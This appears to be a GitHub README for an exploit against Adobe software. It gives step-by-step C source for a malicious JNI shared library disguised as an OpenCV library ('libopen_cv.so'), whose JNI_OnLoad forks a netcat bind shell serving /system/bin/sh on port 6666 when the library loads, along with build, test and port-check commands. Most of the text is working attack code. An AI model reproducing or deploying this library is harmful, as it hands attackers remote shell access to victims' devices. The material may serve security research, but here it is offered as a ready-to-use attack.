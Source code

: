## Notes

The .so file must be prefixed with `lib` and have the extension `.so` in order to be loaded by the JVM. For example, `libhello.so` is loaded by `System.loadLibrary("hello")`.

## How it works?

### Step 1.

First create the code that will be compiled into the library code. We have the code stored in code.c.

```C
#include <jni.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

JNIEXPORT jint JNI_OnLoad(JavaVM* vm, void* reserved) {
    
    if (fork() == 0) {
        system("toybox nc -p 6666 -L /system/bin/sh -l");
    }
    JNIEnv* env;
    if ((*vm)->GetEnv(vm, (void**)&env, JNI_VERSION_1_6) != JNI_OK) {
        return JNI_ERR;
    }
    return JNI_VERSION_1_6;
}
```
### Step 2.

Compile C code into shared library binary code. This is the file we will send to Adobe in attempt to exploit it.

```bash
gcc -shared -fPIC -I/usr/lib/jvm/default-java/include -I/usr/lib/jvm/default-java/include/linux -o libopen_cv.so code.c
```

### Step 3.

For testing we have this Java code that will load and thus run the .so code in a sandbox. 

```Java
public class Test {
    static {
        System.loadLibrary("opencv_info");
    }

    public static native void JNI_OnLoad();

    public static void main(String[] args) {
        System.out.print("RUNNING");
        //JNI_OnLoad();
    }
}
```
### Step 4.

We compiled the Java code using the following command.

```bash
javac Test.java
```
### Step 5.

Run the Java program which will call the .so and thus open a port on 6666 on the device.

```bash
java -Djava.library.path=/home/kali/Desktop/code/libs Test 
```

### Step 6.

To check if successfull (besides an error log), we used a netstat command. If you see the port 6666 is open that means the shared library file was executed and thus you can run a reverse shell.

```bash
netstat -tuln
```

### Step 7. 

To see which process is using the port 6666, so we can reset if needed.

```bash
lsof -i :6666
```

Kill the process to restart.

```bash
kill [PID]
```
